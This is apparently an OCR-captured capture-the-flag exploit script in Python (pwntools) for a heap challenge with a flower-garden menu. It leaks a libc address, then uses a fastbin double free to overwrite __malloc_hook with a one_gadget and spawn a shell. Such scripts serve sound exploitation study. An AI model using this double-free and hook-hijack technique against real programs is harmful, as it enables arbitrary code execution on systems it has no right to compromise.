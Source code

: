 ```python  
def ru(s, timeout=0):  
    if timeout == 0:  
        return p.recvuntil(s)  
    else:  
        return p.recvuntil(s, timeout=timeout)  
def debug(msg=''):  
    gdb.attach(p,'')  
    pause()  
def getshell():  
    p.interactive()  
#-------------------------------------
def create(size,name,color):  
    ru("Your choice : ")  
    sl("1")  
    ru("Length of the name :")  
    sl(str(size))  
    ru("The name of flower :")  
    sd(name)  
    ru("The color of the flower :")  
    sl(color)  
  
def visit():  
    ru("Your choice : ")  
    sl("2")  
  
def remote(index):  
    ru("Your choice : ")  
    sl("3")  
    ru("Which flower do you want to remove from the garden:")  
    sl(str(index))  
  
def clean():  
    ru("Your choice : ")  
    sl("4")  
create(0x98,"a"*8,"1234")  
create(0x68,"b"*8,"b"*8)  
create(0x68,"b"*8,"b"*8)  
create(0x20,"b"*8,"b"*8)  
remote(0)  
clean()  
create(0x98,"c"*8,"c"*8)  
visit()  
ru("c"*8)  
leak = u64(p.recv(6).ljust(8,"\x00"))  
libc_base = leak -0x58-0x10 -libc.symbols["__malloc_hook"]  
print "leak----->"+hex(leak)  
malloc_hook = libc_base +libc.symbols["__malloc_hook"]  
print "malloc_hook----->"+hex(malloc_hook)  
print "libc_base----->"+hex(libc_base)  
one_gadget = 0xf02a4 + libc_base  
  
  
remote(1)  
remote(2)  
remote(1)  
#debug()  
create(0x68,p64(malloc_hook-0x23),"b"*4)  
create(0x68,"b"*8,"b"*8)  
create(0x68,"b"*8,"b"*8)  
  
create(0x68,"a"*0x13+p64(one_gadget),"b"*4)  
  
remote(1)  
```
